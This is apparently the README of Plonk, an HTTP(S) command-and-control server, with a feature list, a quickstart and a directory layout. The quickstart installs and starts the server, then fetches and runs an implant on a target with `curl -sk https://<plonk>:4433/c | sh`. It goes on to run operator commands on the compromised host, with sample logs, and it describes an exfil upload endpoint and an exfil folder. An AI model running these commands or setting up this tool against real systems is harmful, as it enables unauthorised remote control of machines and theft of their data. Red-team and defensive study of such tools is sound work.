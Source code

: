 Plonk
=====
Plonk is a no-frills HTTP(s)-based C2 server, intended to be very easy to set
up and use but also powerful enough for real, if simple, ops.

### Features
1. Very simple [protocol](./doc/protocol.md) which handles...
   1. [Tasking](./doc/protocol.md#tasking-t)
   2. [Task Output](./doc/protocol.md#output-o)
   3. [Exfil Upload](./doc/protocol.md#exfil-p)
   4. [Implant Generation](./doc/protocol.md#implant-generation-c)
   5. [Static File Serving](./doc/protocol.md#static-files-f)
2. Fairly simple [setup](#singleplayer-quickstart) and [configuration](./doc/config.md)
3. Multiplayer-friendly, with reasonably simple
   [setup](./doc/multiplayer.md)
4. [TLS](./doc/tls.md) by default, with [Let's Encrypt](https://letsencrypt.org)
   or a self-signed certificate.  Or both.
5. More than zero [documentation](./doc)

Singleplayer Quickstart
-----------------------
```sh
# Install Plonk itself.  This can be done on another host, so long as plonk
# is in PATH on the server or the rest of this section is adjusted accordingly.
go install github.com/magisterquis/plonk@v0.0.1-beta.1

# Start it going
nohup plonk -server -https 0.0.0.0:4433 >/dev/null 2>&1 &
# Or get rid of -https and add -letsencrypt for better TLS if a domain name is
# pointed at Plonk.

# Did it work?
ls "$HOME/plonk.d/"                 # Populated directory exists?
# Should see:
#     files  log.json  op.sock  state.json
tail "$HOME/plonk.d/log.json"       # Log looks ok?  tail -f is also neat.
# Log will tell you everything's happy:
#    {"time":"2023-12-29T22:45:27.206057004Z","level":"INFO","msg":"Server ready","dirname":"/home/h4x/plonk.d"}
curl -svk https://127.0.0.1:4433/c  # Implant generation works?
# Should see a shell script with a couple of curl -k -pinnedpubkey "sha256//..." lines

# Get a callback
curl -sk https://<plonk>:4433/c | sh  # On target and with a better URL, of course.  
                                      # Don't use -k if Plonk was started with -letsencrypt
tail -n2 "$HOME/plonk.d/log.json"     # Get the callback?  May need more -n.
# Log should say an implant was generated and something called back, like:
#    {"time":"2023-12-29T22:52:02.235811943Z","level":"INFO","msg":"Implant generation","parameters":{"PubkeyFP":"1oOI5fF7U7bLSVythHfk0COUNvymV0aoWfTT1puBfIk=","RandN":"57i","URL":"https://[REDACTED]:4433"},"sni":"","host":"[REDACTED]:4433","method":"GET","remote_address":"[REDACTED]:32260","url":"/c"}
#    {"time":"2023-12-29T22:52:02.280309985Z","level":"INFO","msg":"New implant","id":"57i-target.my.domain-9924"}

# Interact with the target
plonk  # Connect to the server as an operator
# A nice welcome message should appear
#     ___________________________
#    /     Welcome to Plonk!     \
#    \ Try ,help to get started. /
#     ---------------------------
#            \   ^__^
#             \  (oo)\_______
#                (__)\       )\/\
#                    ||----w |
#                    ||     ||
#    2023/12/29 22:53:26 [OPERATOR] Connected: h4x0r (cnum:1)
#    (plonk)>
,list  # See what's called back
# Should be the same ID as in the log output from above:
#    ID                         From        Last Seen
#    --                         ----        ---------
#    57i-target.my.domain-9924  [REDACTED]  2023-12-29T22:54:42Z (4.939s)
,seti 57i-target.my.domain-9924 # Interact with our target, but with the right ID
# Timestamps are handy to work out what happens and when, turns out.
#    2023/12/29 22:58:37 Interacting with 57i-target.my.domain-9924
#    2023/12/29 22:58:37 Use ,logs to return to watching Plonk's logs
ps awwwfux  # Run a command on target
# Plonk is HTTP-based; we get notified when the task is queued, send, and run
#    2023/12/29 22:58:42 [TASKQ] Task queued by h4x0r for 57i-target.my.domain-9924 (qlen 1)
#    ps awwwfux
#    2023/12/29 22:58:43 [CALLBACK] Sent task to 57i-target.my.domain-9924 (qlen 0):
#    ps awwwfux
#    2023/12/29 22:58:43 [OUTPUT] From 57i-target.my.domain-9924
#    USER       PID %CPU %MEM   VSZ   RSS TT  STAT   STARTED       TIME COMMAND
#    root         1  0.0  0.0   948   104 ??  I      Sat01AM    0:01.01 /sbin/init
#    root     30130  0.0  0.0  1112    24 ??  Ip     Sat01AM    0:00.00 - /sbin/slaacd
#    _slaacd  83001  0.0  0.0  1108    24 ??  Ip     Sat01AM    0:00.00 |-- slaacd: engine (slaacd)
#    _slaacd  55365  0.0  0.0  1128    24 ??  IpU    Sat01AM    0:00.00 `-- slaacd: frontend (slaacd)
#    ...
```

Directory
---------
Plonk's directory (settable with `-dir` at runtime or
[baked-inable](./doc/config.md#compile-time-settable-defaults) with
`-ldflags "-X main.DefaultDir"` at compile time) is where it keeps all of the
files it needs, i.e.:

File/Subdirectory | Description
------------------|------------
`exfil/`          | Exfil sent to [`/p`](./protocol.md#exfil-p)
`files/`          | Static files, accessible via [`/f`](./doc/protocol.md#static-files-f)
`implant.tmpl`    | Optional [implant template](./doc/protocol.md#implant-generation-c)
`index.html`      | Optional default [response body](./doc/config.md#indexhtml)
`log.json`        | Server logs
`op.sock`         | Operator Unix socket, used by Plonk the client
`sate.json`       | Server's persistent state
